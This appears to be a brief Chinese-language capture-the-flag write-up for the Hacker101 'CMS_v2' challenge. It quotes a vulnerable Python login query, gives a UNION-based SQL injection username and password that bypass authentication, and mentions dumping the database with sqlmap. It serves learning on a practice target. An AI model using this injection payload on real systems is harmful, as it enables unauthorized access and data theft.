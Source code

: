 ```yaml
---
layout: post
title:  "CMS_v2"
date:   2020-03-23 23：14
categories: [pentest]
tags: hacker101
---
```

<!-- more -->
# CMS_v2

[https://ctf.hacker101.com/ctf/launch/3](https://ctf.hacker101.com/ctf/launch/3)

* * *

## Flag 1

`if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:`

cur.execute:python执行数据库操作

数据库语句:

`SELECT password FROM admins WHERE username=\'%s\'`

> 查询password

字符处理

`request.form['username'].replace('%', '%%')`

> 用%%替代%处理username然后传入参数值

判断条件是

`cur.execute == 0`

username

`admin'and '1'='2' union select 0 from admins`

password

`0`

## Flag 2

get--> post

# Flag 3

flag1 是 password，但是username在哪里还没有找到

sqlmap直接把数据库dump出来，简单粗暴
